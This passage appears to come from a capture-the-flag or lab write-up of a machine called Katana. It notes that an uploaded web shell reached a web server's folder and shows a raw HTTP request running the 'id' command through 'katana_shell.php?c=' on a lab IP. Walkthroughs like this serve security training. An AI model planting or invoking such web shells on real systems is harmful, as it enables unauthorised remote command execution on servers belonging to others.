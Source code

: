 ![uploaded](/images/katana_uploaded.png)

> It seemed to have worked and was stored in the folder of a web server!
{: .prompt-info }

As we have no idea on which of the identified web servers (ports `80`, `8088` or `8715`) the web shell is stored, we now check on it on everyone of them.

```http
GET /katana_shell.php?c=id HTTP/1.1
Host: 192.168.214.83:8715
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=b3vuugbfm4fr4iq79n2fp4tvkt
Connection: close

HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Fri, 13 Jan 2023 14:56:51 GMT
```